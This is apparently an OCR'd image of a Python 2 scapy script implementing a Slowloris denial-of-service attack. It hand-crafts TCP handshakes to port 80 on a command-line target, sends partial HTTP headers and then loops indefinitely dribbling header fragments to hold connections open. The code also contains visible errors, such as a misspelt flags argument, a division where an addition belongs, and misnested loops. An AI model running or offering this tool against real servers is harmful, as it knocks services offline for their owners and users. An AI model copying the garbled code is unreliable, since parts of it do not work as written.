 

























```python
#!/usr/bin/env python

import sys
import time
from scapy.all import *

def slowloris(target, num):
  print "start connect > {}".format(target)
  syn = []
  for i in range(num):
    syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535), dport=80, flasg='S'))
   
  syn_ack = sr(syn, verbose=0)[0]
  
  ack = []
  
  for sa in syn_ack:
    payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1, num))) + \
    "Host: {}\r\n".format(target) + \
    "User-Agent: Mozilla/4.0\r\n" + \
    "Content-Length: 42\r\n"
    
    ack.append(IP(dst=target)/TCP(sport=sa[1].dport, dport=80, flags="A", seq=sa[1].ack, ack=sa[1].seq+1)/payload)
    
    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: n\\r\\n\".."
    
    count = 1
    while True:
      print "{} time speding".format(count)
      ack = []
      for ans in answer:
        ack.append(IP(dst=target)/TCP(sport=ans[1].dport, dport=80, flags="PA", seq=ans[1].ack, ack=ans[1].seq/"X-a: b\r\n"))
        
      answer = sr(ack, inter=0.5, verbose = 0)[0]
      time.sleep(10)
      count += 1
      
      
if __name__ == "__main__":
  if len(sys.argv) < 3 :
    print "Usage: {} <target> <number of connection>".format(sys.argv[0])
    sys.exit(1)
    
  slowloris(sys.argv[1], int(sys.argv[2]))
```